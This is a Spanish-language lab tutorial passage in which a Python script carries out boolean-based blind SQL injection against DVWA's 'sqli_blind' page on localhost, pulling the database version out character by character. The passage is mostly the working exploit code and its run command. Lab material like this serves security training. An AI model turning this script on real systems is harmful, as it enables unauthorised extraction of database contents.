

En este apartado, vamos a realizar la ejecución de un script en python, para poder averiguar la versión de la base de datos que está ejecutando el servidor. Esto nos permite buscar vulnerabilidades en internet para poder realizar la explotación de la misma. Para ello el primer paso es crear el código en python:

'''

import requests
from requests.structures import CaseInsensitiveDict

headers = CaseInsensitiveDict()
headers["Cookie"] = "security=medium; PHPSESSID=q1al1s91f2l75phkc846d636e6"
headers["Content-Type"] = "application/x-www-form-urlencoded"
url = 'http://localhost/vulnerabilities/sqli_blind/'

for i in range(100):
    parameters = f"id=1+and+length(version())={i}&Submit=Submit"
    # parameters = {"id": f'1+and+length(version())={i}', "Submit": "Submit"}
    r = requests.post(url, headers=headers, data=parameters)
    if 'User ID exists in the database' in r.text:
        print(f'length = {i}')
        length = i
        break
j = 1
for i in range(1, length+1):
    for s in range(30, 126):
        parameters = f"id=1+and+ascii(substring(version(),{i},{j}))={s}&Submit=Submit"
        r = requests.post(url, headers=headers, data=parameters)
        if 'User ID exists in the database' in r.text:
            print(chr(s), end='')
            break
        j += 1

'''

Una vez creado el archivo, podemos proceder a su ejecución con el siguiente comando:

    python3 sqlVersion.py

Y como podemos observar, nos ha extraido la versión junto con el nombre de la base de datos que utiliza:

